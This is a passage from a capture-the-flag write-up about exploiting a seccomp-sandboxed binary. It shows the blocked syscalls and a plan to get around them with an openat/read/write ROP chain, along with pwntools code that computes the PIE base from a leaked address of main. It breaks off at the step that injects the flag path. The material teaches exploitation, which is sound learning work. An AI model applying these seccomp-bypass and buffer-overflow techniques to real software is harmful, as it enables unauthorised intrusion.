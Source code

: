 ```c
seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve),0);
seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(open),0);
...
seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(process_vm_writev),0);
```

Basically, they blocked:
- `execve`, `open`, `execveat`
- Variants of `readv`, `writev`, `process_vm_*`

But they *didn’t block*:
- `openat`
- `read`
- `write`

We can work with this.

---

## The Plan

Here’s what we need to do:
1. **Leak the PIE base** 
2. **Find or inject the flag file path** – `/home/user/flag.txt`
3. **Build ROP chain** using `openat`, `read`, `write` since `open()` is blocked.
4. **Exploit the buffer overflow** to hijack control flow.

---

## PIE Base Leak

From the binary:

```c
printf("%p\n",main);
```

Nice. They’re handing us the address of `main` post-PIE randomization. With that, we can calculate the binary’s base.

In the exploit:
```python
main_leak = p.recvline().strip()
main_addr = int(main_leak, 16)
main_offset = elf.symbols['main']
binary_base = main_addr - main_offset
```

---

## Injecting the Flag Path

Here’s the fun part – the program asks for your name first.

```c
puts("What is your name, epic H4x0r?");
fgets(name, 30, stdin);
```
